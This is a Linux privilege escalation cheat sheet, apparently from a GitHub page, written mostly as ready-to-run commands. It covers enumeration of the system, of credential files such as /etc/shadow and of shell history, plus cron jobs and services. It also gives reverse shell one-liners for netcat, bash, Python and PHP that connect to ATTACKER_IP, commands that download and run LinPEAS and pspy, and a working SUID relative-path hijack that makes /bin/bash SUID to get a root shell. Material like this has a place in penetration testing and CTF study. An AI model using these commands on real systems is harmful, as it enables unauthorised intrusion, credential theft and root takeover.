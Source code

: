 # Linux Privilege Escalation - Cheat Sheet

### 1. System Information

```bash
uname -a                     # Kernel version
cat /etc/issue               # OS version
cat /proc/version            # Kernel details
cat /etc/os-release          # OS details
id                           # Current user info
whoami                       # Current user
who -a                       # Active sessions
last                         # Login history
ps aux --forest              # Running processes
```

### 2. Searching for Sensitive Files

```bash
find / -name "*pass*" 2>/dev/null    # Search for files containing "pass"
grep -r "password" /etc/ 2>/dev/null # Search for passwords
find / -perm -4000 -type f 2>/dev/null # SUID files
find / -perm -2000 -type f 2>/dev/null # SGID files
find / -user root -perm -4000 -exec ls -la {} + 2>/dev/null # Root SUID files
find /home -type f -name '.*history' 2>/dev/null # Command history files
```

### 3. Permissions and Users

```bash
sudo -l                         # Check sudo privileges
cat /etc/passwd                 # List users
cat /etc/shadow                 # Hashed passwords (if accessible)
cat /etc/group                  # List groups
getent passwd                    # User info
getent group                     # Group info
ls -la /root/                    # Access root home
```

### 4. Cron Jobs

```bash
ls -la /etc/cron*                # List cron jobs
cat /etc/crontab                 # Global crontab content
find / -type f -iname "*cron*" 2>/dev/null # Search for cron jobs
systemctl list-timers --all      # Check systemd timers
```

### 5. Services and Processes

```bash
netstat -tulpn                   # Listening services
ss -tulpn                        # Alternative to netstat
ps aux | grep root               # Processes running as root
ps -ef | grep apache             # Apache processes
systemctl list-units --type=service --all # Active/inactive services
```

### 6. Logs and Emails

```bash
ls -lah /var/log/                # List logs
cat /var/log/auth.log            # Authentication logs
cat /var/log/syslog              # System logs
cat /var/spool/mail/*            # Emails
```

### 7. Common Service Paths

```bash
/etc/passwd
/etc/shadow
/etc/group
/etc/cron.d/
/etc/cron.daily/
/etc/cron.hourly/
/etc/cron.weekly/
/etc/cron.monthly/
/var/spool/cron/
/var/spool/cron/crontabs/
/etc/systemd/system/
/usr/lib/systemd/system/
```

### 8. Reverse Shells

```bash
nc -e /bin/bash ATTACKER_IP ATTACKER_PORT  # Netcat (if -e is supported)
nc -c bash ATTACKER_IP ATTACKER_PORT       # Netcat alternative
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1  # Bash reverse shell
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",ATTACKER_PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'  # Python3 reverse shell
php -r '$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'  # PHP reverse shell
```

### 9. Exploitation & Enumeration Tools

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250301-c97fb02a/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh  # Run LinPEAS

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O pspy64
chmod +x pspy64 && ./pspy64  # Run pspy to monitor processes
```

### 10. Practical Exploitation

<details>

<summary>SUID Executables</summary>

If you have a custom executable that has SUID, look if you can't find relative paths

[https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)

```
strace -f ./executable 2>&1 | grep -iE "open|access|exec|execve"
```

malicious bash file if you find a relative path:

```
#!/bin/bash
/usr/bin/chmod u+s /bin/bash
/usr/bin/echo Done
```

Change path variable with the place you created you bash file:

```
export PATH=/home/user:$PATH
```

once you run the SUID file, `bash -p`

</details>

